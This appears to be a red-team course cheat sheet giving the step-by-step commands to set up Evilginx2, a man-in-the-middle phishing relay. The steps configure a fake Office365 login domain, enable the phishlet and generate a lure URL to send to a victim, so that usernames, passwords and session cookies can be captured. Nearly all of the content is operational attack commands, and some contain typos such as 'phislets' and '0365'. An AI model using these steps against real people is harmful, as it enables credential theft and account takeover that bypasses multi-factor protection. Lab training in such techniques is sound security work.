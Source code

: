 ## Phishing Evilginx2
- https://github.com/kgretzky/evilginx2
- Evilginx acts as a relay/man-in-the-middle between the legit web page and the target user. The user always interacts with the legit website and Evilginx captures usernames, passwords and authentication cookies.

#### Start evilgix2
```
evilginx2 -p C:\AzAD\Tools\evilginx2\phishlets
```

#### Configure the domain
```
config domain studentx.corp
```

#### Set the IP for the evilginx server
```
config ip 172.16.x.x
```

#### Use the template for office365
```
phishlets hostname o365 login.studentx.corp
```

#### Verify the DNS entries
```
phishlets get-hosts o365
```

#### Copy the certificate and private key
0365.cr and 0365.key from ```C:\studentx\.evilginx\crt to C:\studentx\.evilginx\crt\ login.studentx.corp```

#### Enable phishlets
```
phislets enable 0365
```

#### Create the phishing URL (Tied to an ID)
```
lures create 0365
```

#### Get the phishing URL
- Share the phishing URL with the victim
```
lures get-url <ID>
```
